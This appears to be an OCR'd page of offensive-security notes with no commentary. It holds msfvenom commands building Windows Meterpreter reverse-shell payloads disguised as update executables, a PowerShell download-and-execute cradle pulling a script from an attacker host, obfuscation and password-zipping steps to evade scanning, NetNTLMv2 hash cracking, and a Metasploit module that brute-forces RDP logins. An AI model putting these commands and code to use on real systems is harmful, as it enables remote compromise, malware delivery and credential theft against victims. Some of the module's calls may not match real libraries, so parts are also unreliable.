 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f exe -o ~/win_update.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f psh-cmd -o payload.ps1

python3 -m http.server 8080

Import-Module ./Invoke-Obfuscation.psd1
Invoke-Obfuscation


http://192.168.1.128:8080/update_pacth.exe

zip --password SuaSenhaForte payload_protegido.zip payload_encoded.exe

IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.128:8080/payload.ps1')


john --wordlist=wordlist_personalizada_advanced.txt --format=netntlmv2 hash_john.txt

##
# RDP Login Brute Force Scanner for Metasploit
##

require 'msf/core'

class MetasploitModule < Msf::Auxiliary
  include Msf::Auxiliary::Scanner

  def initialize(info = {})
    super(update_info(info,
      'Name'        => 'RDP Login Brute Force Scanner',
      'Description' => %q{
        This module attempts to brute force RDP logins on a range of hosts.
      },
      'Author'      => [ 'zerobyte-id', 'community' ],
      'License'     => MSF_LICENSE
    ))

    register_options(
      [
        Opt::RPORT(3389),
        OptString.new('USERNAME', [true, 'The username to attempt']),
        OptPath.new('PASS_FILE', [true, 'File containing passwords to try']),
        OptInt.new('THREADS', [true, 'Number of concurrent threads', 4])
      ]
    )
  end

  def run_host(ip)
    passwords = ::File.readlines(datastore['PASS_FILE']).map(&:strip)
    user = datastore['USERNAME']

    passwords.each do |password|
      vprint_status("Trying #{user}:#{password} on #{ip}")
      begin
        sock = Rex::Proto::RDP::RDPConnection.new(ip, datastore['RPORT'])
        sock.connect
        if sock.authenticate(user, password)
          print_good("SUCCESS! #{ip}: #{user}:#{password}")
          report_cred(ip: ip, port: datastore['RPORT'], service_name: 'rdp', user: user, password: password)
          sock.disconnect
          return
        end
        sock.disconnect
      rescue ::Rex::ConnectionError
        print_error("Connection failed to #{ip}")
        return
      end
    end
  end
end







